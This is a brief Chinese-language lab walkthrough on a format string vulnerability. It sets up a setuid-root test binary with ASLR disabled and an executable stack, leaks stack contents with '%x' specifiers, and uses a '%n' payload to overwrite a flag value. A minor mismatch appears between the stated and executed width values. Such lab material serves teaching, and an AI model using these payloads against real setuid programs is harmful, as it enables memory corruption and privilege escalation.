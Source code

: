 ```bash
sudo sysctl -w kernel.randomize_va_space=0

gcc -z execstack -o got got.c
sudo chown root got
sudo chmod 4755 got
```

![image-20220321110132099](FormatStringShellcode/image-20220321110132099.png)

### 查找并修改

修改 flag 的值为 6666 （此值视情况而定），先用一串%x 找出 flag 的位置

```
got %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
```

![image-20220321115051726](FormatStringShellcode/image-20220321115051726.png)

可见其在第一个位置，因此使用`%.4271x%1\$n` 将 flag 的值修改

```bash
./got %.6666x%1\$n
```

![image-20220321115142717](FormatStringShellcode/image-20220321115142717.png)

![image-20220321110738749](FormatStringShellcode/image-20220321110738749.png)
